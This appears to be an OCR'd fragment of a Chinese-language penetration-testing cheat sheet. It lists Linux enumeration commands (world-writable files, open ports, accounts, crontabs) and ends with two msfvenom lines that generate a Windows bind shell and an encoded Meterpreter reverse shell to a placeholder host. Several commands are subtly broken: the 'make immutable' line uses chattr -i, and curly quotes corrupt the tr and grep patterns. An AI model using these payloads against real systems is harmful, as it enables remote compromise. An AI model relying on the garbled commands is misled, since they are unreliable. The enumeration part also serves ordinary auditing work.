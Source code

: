 # 查找哪里拥有写权限
find / -perm -o=w

# 查找名称中包含点和空格的文件
find / -name " " -print
find / -name ".." -print
find / -name ". " -print
find / -name " " -print

# 查找不属于任何人的文件
find / -nouser

# 查找未链接的文件
lsof +L1

# 获取进程打开端口的信息
lsof -i

# 看看 ARP 表中是否有奇怪的东西
arp -a

# 查看所有账户
getent passwd

# 查看所有用户组
getent group

# 列举所有用户的 crontabs
for user in $(getent passwd|cut -f1 -d:); do echo "### Crontabs for $user ####"; crontab -u $user -l; done

# 生成随机密码
cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#$%^&*()_+{}|:<>?=’|fold -w 12| head -n 4

# 查找所有不可修改的文件
find . | xargs -I file lsattr -a file 2>/dev/null | grep ‘^….i’

# 使文件不可修改
chattr -i file
```
Windows 缓冲区溢出利用命令
```
msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c
